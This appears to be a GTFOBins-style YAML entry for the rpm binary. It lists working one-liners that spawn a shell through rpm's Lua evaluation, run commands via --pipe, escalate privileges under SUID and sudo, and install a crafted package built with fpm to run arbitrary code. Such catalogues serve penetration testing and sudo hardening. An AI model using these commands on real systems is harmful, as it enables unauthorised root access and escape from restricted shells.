 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  command: 
    - code: |
            rpm --pipe '/bin/id > /tmp/result'
            cat /tmp/result
  limited-suid:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

